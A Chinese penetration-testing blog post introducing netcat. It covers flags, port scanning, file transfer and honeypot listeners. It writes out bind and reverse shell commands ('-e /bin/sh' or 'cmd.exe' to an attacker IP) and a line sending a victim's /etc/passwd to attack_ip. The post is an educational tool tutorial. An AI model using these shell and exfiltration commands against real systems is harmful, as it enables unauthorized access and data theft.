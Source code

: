```yaml
---
title: 【渗透神器系列】nc
date: 2017-04-10 10:36:01
comments: true
tags:
- nc
- 渗透神器
categories: 安全工具
permalink: 01
---
```

<blockquote class="blockquote-center">工欲善其事，必先利其器</blockquote>
　　从事渗透测试工作几年了，在做项目过程中发现良好的渗透技术固然重要，但欲测试出更多的结果，离不开强大的工具。即使是能力超强的大牛，我想也不可能完全手工做渗透，毕竟渗透测试还是个体力活。
　　现在有些人认为渗透测试越来越简单了，因为开源的自动化工具一大推，轮子也是更新换代。即使对安全一窍不通，只要上工具一跑也能获得很多漏洞，甚至自动化获取权限。我必须得承认目前层出不穷的自动化渗透工具已降低了这个行业的入门门槛，但这不意味着渗透测试工作日趋简单。
<!--more -->
　　首先我的理由是安全攻防永远是此消彼长，技术从未停滞过，安全技术永远领先于安全工具，因此只会使用工具，有时会使渗透测试工作很难开展下去，因为防护手段日益更新，而攻击技术却只能依赖滞后的工具，这样的测试效果可见一斑。其次是目前市面上强大的渗透工具，都需要一定的使用基础，绝非傻瓜式的操作，想要用好一款神器，也并非易事。综上所述，我个人认为目前渗透测试工作的难度反而会更大，并且随着国家企业对安全的重视，渗透测试从业者肩上的担子也只会更重。
　　开篇扯了半天蛋无非是想引出本系列的主题——渗透神器，之所以想要介绍记录渗透测试中使用的神器，是因为*工欲善其事，必先利其器*，仅此而已！
　　本篇作为此系列第一篇，将介绍一款渗透界经久不衰的神器，有瑞士军刀美誉的NC。本篇所记内容大部分来自互联网，如觉内容老套可自行绕道，本人尽量全方面记录NC的使用方法，全当个人查询之用，轻喷即可。

### nc Introduce
nc全称netcat,是网络工具中的瑞士军刀，它能通过TCP和UDP在网络中读写数据，功能强大。

### nc Install
linux/mac上默认安装nc，可在命令行下输入nc -h查看。
windows下可下载nc.exe工具使用。

### nc Usage

#### 基本用法
可以输入nc -h查看帮助：
> -h 查看帮助信息 
-d 后台模式 
-g gateway source-routing hop point[s], up to 8
-G num source-routing pointer: 4, 8, 12, ...
-e prog程序重定向，一但连接就执行［危险］ 
-i secs延时的间隔 
-l 监听模式，用于入站连接 
-L 监听模式，连接天闭后仍然继续监听，直到CTR+C 
-n IP地址，不能用域名(不使用DNS反向查询IP地址的域名)
-o film记录16进制的传输 
-p[空格]端口 本地端口号 
-s addr 本地源地址
-r 随机本地及远程端口 
-t 使用Telnet交互方式 
-u UDP模式 
-v 详细输出，用-vv将更详细 
-w 数字 timeout延时间隔 
-z 将输入，输出关掉（用于扫锚时）

#### PortScan(端口扫描)
基本tcp扫描：
```bash
nc -vv ip port
例：nc -vv 192.168.1.1 5000 扫描192.168.1.1的tcp 5000端口
```
设置延时，指定端口扫描：
```bash
nc -vv -w secs ip port-port
例：nc -vv -w 5 192.168.1.1 5000-5002 扫描192.168.1.1的5000-5002端口，网络超时的时间设为5秒。
```
#### 建立连接
##### 正向连接
目标监听一个端口：
```bash
nc -l -p port -e cmd.exe //windows
nc -l -p port -e /bin/sh //linux
```
本机去连接此端口：
```bash
nc ip port 
```
##### 反向链接
本机监听一个端口：
```bash
nc -vv -l -p port
```
目标连接此端口：
```bash
nc -e cmd.exe ip port //windows
nc -e /bin/sh ip port //linux
```
#### 传送文件
##### 目标机上下载文件
```bash
victim machine:
nc attack_ip port <  /etc/passwd
attacker machine:
nc -d -l -p  port  >  tmp
```
实例：
本机作为目标机，因为是内网ip，模拟现实情况，113.214.238.185为攻击机，现在就是要从目标机上下载文件到攻击机上。
目标机：nc.exe 113.214.238.185 9999 < H:\test.txt 将目标机H盘下test.txt文件传输到攻击机9999端口上
攻击机：nc.exe -d -l -p 9999 > test.txt 将本机9999端口传输过来的文件重命名为test.txt

##### 上传文件至目标机
```bash
attacker machine:
nc -d -l -p port < tmp
victim machine:
nc attack_ip port > tmp
```
实例：
攻击机：nc -d -l -p 9990 < test2.txt
目标机：nc 113.214.238.185 9990 > test2.txt

#### 端口数据抓包
```bash
nc -vv -w 2 -o test.txt thief.one 80 21-15
```
#### 自定义
配合|<等命令，可无限放大NC的功能。

##### 加密传输的数据
服务端：$nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt
客户端：$mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567

##### 目录传输
目标机：$tar -cvf – dir_name | nc -l 1567
攻击机：$nc -n 10.0.0.2 1567 | tar -xvf -

##### 命令记录
```bash
nc -vv victim_ip port < path\file.cmd
```
##### 搭建蜜罐
* nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止 
* nc -L -p 80 > c:\log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:\log.txt 
* nc -L -p 80 < c:\honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中，亦可起到传送文件作用 
* type.exe c:\honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中,亦可起到传送文件作用 

### 类nc工具
* ncat 安装nmap后默认安装ncat，用法于nc类似。
* [Pyshell](http://thief.one/2016/09/05/PyShell-%E6%9C%A8%E9%A9%AC%E5%90%8E%E9%97%A8/) 致敬nc的一款后门shell工具。

### 传送门
[【渗透神器系列】Fiddler](http://thief.one/2017/04/27/1)


参考文章：
https://www.oschina.net/translate/linux-netcat-command
http://www.w3cschool.cn/dosmlxxsc1/jiszug.html


>转载请说明出处:[【渗透神器系列】nc | nMask'Blog](http://thief.one/2017/04/10/1/)
本文地址：http://thief.one/2017/04/10/1/






